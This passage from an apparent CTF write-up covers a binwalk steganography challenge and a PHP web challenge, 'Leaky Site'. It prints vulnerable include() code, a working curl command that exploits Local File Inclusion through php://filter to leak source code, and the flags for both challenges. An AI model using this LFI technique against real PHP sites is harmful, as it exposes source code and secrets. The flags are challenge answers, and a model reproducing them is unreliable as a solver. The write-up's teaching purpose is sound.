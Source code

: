 `binwalk -e babyhide.jpeg`

![binwalk-result](https://gcdnb.pbrd.co/images/CcuSrLHYhovs.png?o=1)

Opening the flag, we will get the flag:

![babyhide-flag](https://gcdnb.pbrd.co/images/Yq5risQBfq6p.png?o=1)

flag{baby_come_back}

## web

### Leaky Site

> Try to get source of main_page.

```
<?php
    if(isset($_GET['resource'])){
        include($_GET['resource'] . '.php');
    } else {
        header("Location: /index.php?resource=main_page");
    }
?>
```

Link: https://thecybercoopctf-leaky-site.chals.io/

If we see the code above, there is an `include` function that has a vulnerability to Local File Inclusion.
One of the Local File Inclusion (LFI) techniques that can be used is by using `php://filter`.
The challenge asked us to get the source of main_page, hence we could utilize the `php://filter` stream wrapper for base64 encoding:

`curl https://thecybercoopctf-leaky-site.chals.io/index.php?resource=php://filter/convert.base64-encode/resource=main_page | base64 -d`

We could see the response as follows:

```
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Main</title>
    <link rel="stylesheet" href="https://unpkg.com/@ctfdio/picocss-themes@0.0.3/dist/css/picostrap.min.css">
    </head>
    <body>
        <div class="container my-5">
            <h3>There's a flag here but it's in the source code...</h3>
            <p>
                Can you pull it out?
                <pre>
                    <?php // "flag{0h_n0_php_y0ur_l3aking_4ll_0ver}" ?>
                </pre>
                PHP is quite weird about filters I hear...
            </p>
        </div>
    </body>
</html>
```

The PHP comment within the `<pre>` tag contains a flag:
flag{0h_n0_php_y0ur_l3aking_4ll_0ver}
